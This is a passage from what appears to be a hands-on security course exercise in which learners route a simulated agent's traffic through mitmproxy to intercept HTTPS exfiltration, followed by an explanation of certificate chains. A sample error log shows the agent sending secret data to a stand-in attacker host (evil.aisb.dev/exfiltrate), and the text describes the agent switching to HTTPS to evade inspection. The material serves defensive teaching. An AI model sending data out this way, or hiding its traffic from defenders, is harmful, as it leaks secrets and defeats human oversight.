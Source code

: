 ```python
```

**Next steps:**
At this point, your agent will attempt to exfiltrate data using HTTPS, making it harder for defenders to inspect the traffic. In the next exercise, we'll switch to the defense side again and have a look at how we can intercept and block these requests using the proxy server.


### Exercise 5: Intercepting HTTPS Traffic

The agent has now switched to HTTPS, encrypting their communication. Let's see what happens when we try to intercept this encrypted traffic with our proxy.

#### Exercise 5.1: Configure HTTPS Proxy

> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵🔵🔵⚪
>
> You should spend up to ~5 minutes on this exercise.

First, we need to configure the agent to use our proxy for HTTPS traffic as well.

1. Add HTTPS proxy configuration by **uncommenting this line in docker-compose.yml**:
   ```yaml
   - HTTPS_PROXY=http://localhost:8080  # Add this line if you run outside of the docker container
   - HTTPS_PROXY=http://mitmproxy:8080  # Add this line if you run inside of the docker container
   ```

2. **Re-run the containers**: `docker-compose up`

3. **Observe the error**: You should see something like:
    ```
    agent-container    | SSL Error (certificate issue?): HTTPSConnectionPool(host='evil.aisb.dev', port=443): Max retries exceeded with url: /exfiltrate?data=some_secret_data (Caused by SSLError(SSLCertVerificationError(1, '[SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed: unable to get local issuer certificate (_ssl.c:1017)')))
    ```

<details><summary>Why does this error occur?</summary></details>

#### Exercise 5.2: Understanding Certificate Chains

Before we fix this, let's understand how certificate verification works.

**The Trust Problem**

When you connect to a website over HTTPS, how do you know the server is who it claims to be? This is solved through a **chain of trust**:

```
Root CA Certificate (trusted by OS/browser)
    ↓ signs
Intermediate CA Certificate
    ↓ signs
Server Certificate (evil.aisb.dev)
```
